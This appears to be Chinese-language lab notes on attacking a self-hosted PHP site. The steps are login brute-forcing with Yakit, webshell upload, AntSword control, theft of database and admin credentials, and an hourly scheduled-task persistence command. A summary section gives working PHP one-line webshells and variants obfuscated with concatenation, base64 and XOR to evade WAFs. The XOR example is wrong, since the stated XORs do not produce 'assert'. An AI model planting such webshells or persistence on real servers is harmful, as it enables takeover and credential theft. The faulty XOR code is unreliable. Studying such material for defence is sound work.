



# 使用yakit进行爆破

### 配置apache和mysql开机自启动(根据需要修改自己的路径)

```cmd
//配置mysql
"D:/phpstudy_pro/Extensions/MySQL5.7.26/bin/mysqld.exe" --install MySQL
sc config MySQL start= auto
net start MySQL

//配置apache
"D:/phpstudy_pro/Extensions/Apache2.4.39/bin/httpd.exe" -k install
sc config Apache2.4 start= auto
net start Apache2.4
```

### 配置花生壳(内网穿透)开机自启动

```cmd
sc create PHTunnel binPath= "/"C:/Program Files (x86)/Oray/HskDDNS/phtunnel.exe/"" start= auto
sc start PHTunnel
```


### 配置yakit代理(端口为8083)



配置好了以后打开yakit就能对网站进行抓包了

### 把配置好的选项勾选上


### 打开yakit进行抓包


### 导入自己的密码本


### 手动劫持

随便输入一个账号密码劫持来看一下


### 发送到webfuzzer


### 插入payload字典


然后发送请求,为了能看到效果,我将我的账号密码写入了字典.观察到这几个响应大小跟其他几个不同,点进去看发现提示密码错误.说明存在这个用户


转变战术,将userid直接替换成2493770457来试试看


# 使用webshell做文件上传木马

### 文件上传


### 连接蚁剑


### 打开命令行工具

使用type命令查看php源码,获取数据库信息,以及管理员后台密码




### 连接数据库



### 获取用户信息(账号密码)


### 翻阅目录执行脚本

****


### 查看进程和结束进程

tasklist查看进程,可以发现exe文件已经正常执行了


使用 taskkill /im 1.exe 结束进程


### 创建定时任务计划

执行自定的脚本,每小时执行一次

```cmd
schtasks /create /tn "Hourly PHP Script Execution" /tr "php D:/phpstudy_pro/WWW/stusystem/uploads/1.exe" /sc hourly /mo 1 /st 00:00
```


# 知识点总结

### 1. 什么是 WebShell？

WebShell 是一种以网页文件形式存在的命令执行环境，通常以 ASP、PHP、JSP 或 CGI 等动态脚本语言编写。攻击者通过 WebShell 获得服务器的控制权限，可以执行任意命令、读取文件、上传恶意文件等。它通常被称为网站的“后门”，用于维持对受感染服务器的长期控制。

### 2. WebShell 的分类

WebShell 通常分为以下几类：
1. **一句话 WebShell**：非常短小的恶意代码，通常只包含一行，功能是执行任意命令或代码。
2. **复杂 WebShell**：带有文件管理、数据库管理等功能的恶意脚本，通常以多行代码形式存在，功能强大。
3. **隐蔽型 WebShell**：通过各种技术手段对代码进行混淆或加密，以规避安全检测工具的发现。

### 3. 一句话 WebShell 示例

一句话 WebShell 通常非常简短，仅包含执行代码的核心功能。

#### PHP 一句话 WebShell 示例

**示例 1**：
```php
<?php eval($_REQUEST["cmd"]); ?>
```
- **解释**：`eval()` 函数将 `$_REQUEST["cmd"]` 的内容作为 PHP 代码执行，攻击者通过请求传递命令（如 `cmd=phpinfo()`），服务器执行该命令。

**示例 2**：
```php
<?php assert($_REQUEST['cmd']); ?>
```
- **解释**：`assert()` 函数将 `$_REQUEST["cmd"]` 的内容当作 PHP 代码执行，功能类似于 `eval()`。

### 4. WebShell 代码执行函数

在 PHP 中，有许多函数可以执行代码，这些函数通常被用于编写 WebShell。

#### 常见代码执行函数：

- **`eval()`**：执行字符串形式的 PHP 代码。
- **`assert()`**：与 `eval()` 类似，执行字符串形式的 PHP 代码。
- **`preg_replace()`**：带 `/e` 修饰符的情况下，可以将替换内容作为 PHP 代码执行。
- **`create_function()`**：创建匿名函数，并可以执行传递的代码。
- **`system()`、`exec()`、`shell_exec()`**：直接在服务器上执行系统命令。

#### 示例代码：
```php
// 使用 eval() 执行任意代码
<?php eval($_REQUEST['cmd']); ?>

// 使用 assert() 执行任意代码
<?php assert($_REQUEST['cmd']); ?>

// 使用 preg_replace() 和 /e 修饰符
<?php preg_replace("/abc/e", $_REQUEST['cmd'], "abc"); ?>

// 使用 create_function() 创建并执行匿名函数
<?php 
$func = create_function('', $_REQUEST['cmd']);
$func();
?>
```

### 5. WebShell 变形技术

为了绕过防火墙（WAF）和安全检测，WebShell 往往会使用各种技术手段进行变形和混淆。

#### 5.1 利用字符串连接和替换

**示例**：
```php
<?php
$str1 = "as";
$str2 = "sert";
$func = $str1 . $str2; // $func = "assert"
$func($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

#### 5.2 利用 Base64 编码

**示例**：
```php
<?php
$code = base64_decode("YXNzZXJ0"); // "assert" 的 Base64 编码
$code($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

#### 5.3 利用替代数据来源

**示例**：
```php
<?php
$_REQUEST['a']($_REQUEST['cmd']); // 请求参数 a 的值可以是 assert、eval 等函数名
?>
```

#### 5.4 利用异或运算

**示例**：
```php
<?php
$func = chr(97) ^ chr(2); // 'a' 异或 2
$func .= chr(115) ^ chr(5); // 's' 异或 5
$func .= chr(115) ^ chr(5); // 's' 异或 5
$func .= chr(101) ^ chr(1); // 'e' 异或 1
$func .= chr(114) ^ chr(0); // 'r' 异或 0
$func .= chr(116) ^ chr(5); // 't' 异或 5
$func($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

### 6. WebShell 管理工具

常见的 WebShell 管理工具包括：
- **蚁剑 (AntSword)**：开源、跨平台的 WebShell 管理工具。
- **C刀 (Cknife)**：跨平台的中国菜刀变种。
- **冰蝎 (Behinder)**：支持动态加密的 WebShell 管理工具，功能强大。
- **哥斯拉 (Godzilla)**：功能丰富，支持虚拟终端、数据库管理等。

这些工具通过连接 WebShell，提供图形化界面，方便攻击者执行命令、管理文件、操作数据库等。

`assert` 和 `eval` 都可以在 PHP 中执行字符串形式的代码，但它们的用途和行为略有不同：

### 7. `eval` 函数
- **作用**：`eval` 函数直接执行传入的字符串作为 PHP 代码。它可以执行任意合法的 PHP 代码，包括变量声明、函数调用、控制结构（如 if、for 循环）等。
- **返回值**：如果字符串的代码执行成功，`eval` 返回 `null`；如果代码执行中出现错误，`eval` 会抛出一个解析错误（Parse Error）。
- **典型用途**：一般用于动态执行用户输入或动态生成的 PHP 代码（尽管这通常是不安全的）。

#### 示例：
```php
<?php
$code = 'echo "Hello, World!";';
eval($code); // 输出: Hello, World!
```

### 8. `assert` 函数
- **作用**：`assert` 函数最初用于调试和测试，检查一个条件是否为真。如果传入的是一个字符串，`assert` 会将其视为 PHP 代码并执行；如果条件为假，则会触发错误（可以是警告、异常等，具体取决于 PHP 配置）。
- **返回值**：`assert` 的返回值通常与传入条件的真假相关。如果是表达式，会返回表达式的值；如果是字符串代码，会尝试执行并返回结果。
- **典型用途**：主要用于断言（assertion），即在开发或测试阶段用于验证条件是否成立。然而，`assert` 的字符串执行功能也常被滥用，如在 WebShell 中。

#### 示例：
```php
<?php
assert('1 === 1'); // 不输出任何内容，因为条件为真
assert('1 === 2'); // 触发一个警告，条件为假

$code = 'echo "Hello, World!";';
assert($code); // 输出: Hello, World!
```

### 9. 区别总结

- **主要用途**：`eval` 用于直接执行任意 PHP 代码，而 `assert` 用于断言条件是否为真，但也可以执行字符串代码。
- **执行机制**：`eval` 只会执行代码，而 `assert` 是在检查条件的同时，如果传入字符串会执行代码。
- **错误处理**：`eval` 会抛出解析错误（Parse Error），而 `assert` 会触发断言失败的错误，默认情况下是一个警告（但可以配置为抛出异常）。

